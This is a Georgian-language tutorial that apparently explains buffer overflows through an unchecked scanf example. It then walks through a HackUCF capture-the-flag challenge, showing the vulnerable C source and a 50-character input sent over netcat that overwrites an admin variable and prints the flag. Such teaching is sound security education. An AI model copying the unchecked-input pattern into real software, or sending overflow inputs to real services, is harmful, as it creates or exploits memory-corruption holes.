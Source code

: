 ```yaml
---
title: "Buffer Overflow ქართულად"
date: 2024-12-23 00:00:00 -0800
categories: Explanations ქართულად
tags: ახსნა ქართულად tutorials explanation
--- 
```

# რა არის Buffer?

Buffer არის ინფორმაციის შენახვის ადგილი კომპიუტერის მეხსიერებაში, რომელიც გამოიყენება მონაცემთა დამუშავებისთვის და მონაცემთა შესანახად.

მაგალითად ავიღოთ კოდი:

```c
#include <stdio.h>

int main() {
    char name[5];
    
    printf("სახელი: ");
    scanf("%s", name);
    
    printf("გამარჯობა, %s\n", name); 
    return 0;
}
```

ამ შემთხვევაში, Buffer არის name, რომელელშიც შეგვიძლია შევინახოთ მაქსიმუმ 5 სიმბოლო.

# რა არის Buffer Overflow?

Buffer Overflow არის შეხწევადობა რომელიც მაქსიმუმ ინფორმაციაზე მეტის შეტანის შემდეგ ხდება. მაგალითად შეგვიძლია ავიღოთ სათლი და დავიწყოთ მაში წყლის ჩასხმა. თუ ლიმიტზე მეტ წყალს ჩავასხავთ, წყალლი სათლიდან გადმოსვლას დაიწყებს.

ამ შემთხვევაში, ჩვენ თუ შევიტანთ ლიმიტზე მეტ ინფორმაციას, ჩვენი პროგრამა ვერ იმუშავებს ისე როგორც უნდა ემუშავა.

პროგრამამ უნდა იმუშავოს ასე:

```sh
jstr$ gcc main.c
jstr$ ./a.out
სახელი: test1
გამარჯობა, test1
```

თუ შევიტანთ 5ზე მეტ სიმბოლოს, გვექნება ასეთი შედეგი:

```
jstr$ ./a.out
სახელი: Jester
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

`stack smashing detected` ნიშნავს რომ კომპაილერმა (ამ შემთხვევაში gcc-მ) შეამჩნია რომ Buffer Overflow მოხდა, და კოდის ტერმინაცია მოახდინა.

# Buffer Overflow-ს გამოყენება

მაგალითად გამოვიყენებთ HackUCF-ის ამოცანას:

```
Pwn that buffer!

nc ctf.hackucf.org 9000
```

მიბმულია ორი ფაილი, bof1 და bof1.c

გავუშვათ Net Cat:

```
jstr$ nc ctf.hackucf,org 9000

test
Nope!
```

`test` ის შეტანის დროს პასუხად გამოიტანა `Nope!`. მოდით შევხედოთ C ფაილს.

```c
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

int main(void) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
	
	return 0;
}
```

რადგანაც `buf`-ს აქვს 32 სიმბოლოს ლიმიტი, ჩვენ უნდა შევიტანოთ 32 სიმბოლოზე მეტი.

```
jstr$ python3
Python 3.13.1 (tags/v3.13.1:0671451, Dec  3 2024, 19:06:28) [MSC v.1942 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> print('A'* 50)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

(Python-ს იმიტომ ვიყენებ რომ დათვლა მეზარება T_T )

კიდევ ერთხელ გამოვიყენოთ NetCat :
```
jstr$ nc ctf.hackucf.org 9000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{my_first_buffer_overflow!}
```


